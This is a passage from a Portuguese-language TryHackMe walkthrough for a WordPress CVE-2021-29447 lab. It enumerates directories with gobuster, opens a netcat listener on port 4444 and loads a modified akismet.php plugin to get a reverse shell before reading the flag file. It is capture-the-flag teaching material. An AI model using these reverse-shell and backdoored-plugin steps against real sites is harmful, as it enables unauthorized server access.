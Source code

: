 Use o *gobuster* para localizar o diretório da pasta que contém o arquivo modificado.

<img src="https://github.com/patrickpca/TryHackMe/blob/master/Wordpress-%20CVE-2021-29447/img/img21.PNG" width="80%">

1° -> gobuster dir -u http://thm.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt => encontrado o diretório wp-content.

2° -> gobuster dir -u http://thm.com/wp-content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  => Encontrado os diretório plugins.

3° > O restante do diretório é dito na pagina do wordpress aonde o arquivo foi modificado -> akismet/akismet.php

4 -> execute no seu shell o comando `nc lvnp 4444`

5 -> Abra uma nova pagina no seu browser e insira a seguinte url -> http://thm.com/wp-content/plugins/akismet/akismet.php

Agora com o acesso ao shell do servidor. 

vá ao diretório /home/stux/flag -> execute cat flag.txt


<img src="https://github.com/patrickpca/TryHackMe/blob/master/Wordpress-%20CVE-2021-29447/img/img22.PNG" width="80%">
